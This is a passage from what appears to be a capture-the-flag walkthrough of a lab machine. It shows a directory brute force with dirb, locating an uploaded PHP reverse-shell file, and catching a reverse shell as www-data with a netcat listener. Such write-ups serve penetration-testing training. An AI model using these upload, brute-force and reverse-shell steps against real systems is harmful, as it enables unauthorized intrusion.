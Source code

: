 Here, we need to enter our local IP address on which we intend to get the reverse shell connection. Also, we can change the `$shell` to get a shell that we want. Here, I have changed `/bin/sh` to `/bin/bash`.

Once, we upload this file we need to open it but we don't know where it is stored. So, we can run a directory bruteforce attack on the `/sUp3r-s3cr3t` directory.

```
tester@kali:~/Downloads/tartarus$ dirb http://10.10.39.48/sUp3r-s3cr3t

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Sep 20 16:43:16 2020
URL_BASE: http://10.10.39.48/sUp3r-s3cr3t/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.39.48/sUp3r-s3cr3t/ ----
==> DIRECTORY: http://10.10.39.48/sUp3r-s3cr3t/images/                                                                   
+ http://10.10.39.48/sUp3r-s3cr3t/index.html (CODE:200|SIZE:732)                                                         
                                                                                                                         
---- Entering directory: http://10.10.39.48/sUp3r-s3cr3t/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sun Sep 20 16:56:03 2020
DOWNLOADED: 4612 - FOUND: 1
```

Here, we can see a sub-directory named `images` has been detected. We can go and check it out. 

![images](./.images/images_upload.gif)

Over there, we can see another sub-directory named `uploads` which contains our uploaded file `re.php`. Now, all that we need to do is start a listener using `netcat` on our machine using the command `nc -nvlp 9090` and open the file `re.php`.

```
tester@kali:~/Downloads/tartarus$ nc -nvlp 9090
listening on [any] 9090 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.39.48] 52454
Linux ubuntu-xenial 4.4.0-184-generic #214-Ubuntu SMP Thu Jun 4 10:14:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:31:34 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1315): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu-xenial:/$ whoami

www-data
www-data@ubuntu-xenial:/$ pwd
/
```

